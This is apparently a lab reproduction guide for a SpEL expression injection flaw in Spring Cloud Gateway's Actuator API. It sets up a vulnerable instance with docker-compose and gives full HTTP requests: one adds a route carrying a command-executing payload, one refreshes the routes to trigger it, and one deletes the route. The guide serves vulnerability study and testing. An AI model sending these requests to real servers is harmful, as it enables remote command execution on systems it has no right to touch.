






# Spring Cloud Gateway Server Unauthorized Access Vulnerability

## Vulnerability Description

Spring Cloud Gateway is an API gateway in Spring. Versions 3.1.0 and 3.0.6 (inclusive) and prior contain a SpEL expression injection vulnerability. If an attacker can access the Actuator API, the vulnerability can be exploited to execute arbitrary commands.

## Environment Setup

Run the following command to start a web service that uses Spring Cloud Gateway 3.1.0:

```
docker-compose up -d
```

After the service starts, access `http://your-ip:8080` to see the demo page, and the upstream of this page is example.com.



## Vulnerability Reproduction

Exploiting this vulnerability requires multiple steps.

First, send the following packet to add a route containing malicious SpEL expression:

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```



Then, send the following packet to apply the newly added route.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1

```



 This packet will trigger the execution of the SpEL expression:



Finally, send the following packet to clean up and delete the added route:

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
```



Refresh the routes:

